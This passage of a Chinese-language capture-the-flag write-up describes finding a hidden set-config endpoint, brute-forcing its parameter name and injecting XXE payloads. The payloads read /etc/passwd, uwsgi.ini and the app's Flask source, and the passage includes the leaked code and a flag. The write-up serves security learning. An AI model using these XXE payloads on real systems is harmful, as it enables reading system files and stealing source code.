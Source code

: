 难道要爆破参数用GET方法发送XXE的payload，或者还有其他页面？我在反反复复测试XXE以及爆破页面的过程中度过了两个日夜，对着get-config页面发呆，最后几乎都要放弃了，忽然灵机一动，既然有get-config，为什么不会有set-config，访问了一下：

[![](https://p2.ssl.qhimg.com/t019f8b87414527dea1.jpg)](https://p2.ssl.qhimg.com/t019f8b87414527dea1.jpg)

居然不是404！，说明这个页面是存在的，只是我们访问它的方式有一些问题，抓包，改请求方法为OPTIONS：

[![](https://p3.ssl.qhimg.com/t01787de4c384ae6dcf.jpg)](https://p3.ssl.qhimg.com/t01787de4c384ae6dcf.jpg)

依然不支持POST，没关系，爆破一下参数，字典用上文提到的字典包，用里面的:SecLists-masterDiscoveryWeb-Contentburp-parameter-names.txt,payload参照get-config返回的内容，修改为:

`&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE xxe [&lt;!ELEMENT name ANY &gt;&lt;!ENTITY xxe SYSTEM "/etc/passwd" &gt;]&gt;&lt;config&gt;&lt;location&gt;&amp;xxe;&lt;/location&gt;&lt;/config&gt;`

url编码后添加到参数后面，开始爆破：

[![](https://p1.ssl.qhimg.com/t01b19f192ea293594c.jpg)](https://p1.ssl.qhimg.com/t01b19f192ea293594c.jpg)

很快就爆了出来：

[![](https://p0.ssl.qhimg.com/t01119f5ce88f813438.jpg)](https://p0.ssl.qhimg.com/t01119f5ce88f813438.jpg)

这个包发生了302跳转，猜想这里payload已经奏效，所以回到admin页面，查看网页源码:

[![](https://p1.ssl.qhimg.com/t012c5eb9f6f208902e.jpg)](https://p1.ssl.qhimg.com/t012c5eb9f6f208902e.jpg)

完美！接下来就是读取网站后台源码了，由于这里是uwsgi+flask+nginx+docker环境(看的hint)，所以先用payload：

`&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE xxe [&lt;!ELEMENT name ANY &gt;&lt;!ENTITY xxe SYSTEM "uwsgi.ini" &gt;]&gt;&lt;config&gt;&lt;location&gt;&amp;xxe;&lt;/location&gt;&lt;/config&gt;`

读取uwsig.ini,里面内容很简单：

```
module = main
callable = app
```

说明主模块为main.py,所以下一步用payload：

`&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE xxe [&lt;!ELEMENT name ANY &gt;&lt;!ENTITY xxe SYSTEM "main.py" &gt;]&gt;&lt;config&gt;&lt;location&gt;&amp;xxe;&lt;/location&gt;&lt;/config&gt;`

读取main.py,这是网站的主页逻辑：

```
from flask import Flask, abort, redirect, request, Response, session
from jinja2 import Template
import base64, json, os, random, re, subprocess, time, xml.sax
from cStringIO import StringIO

from rng import *

# ^FLAG^7682cc1c5a112610b3cc9b7b87e0661223834323a2da73c0ee966eed510b6b49$FLAG$

flags = json.loads(os.getenv('FLAGS'))
os.unsetenv('FLAGS')

app = Flask(__name__)

templateCache = `{``}`
def render(tpl, **kwargs):
    if tpl not in templateCache:
        templateCache[tpl] = Template(file('templates/%s.html' % tpl).read())
```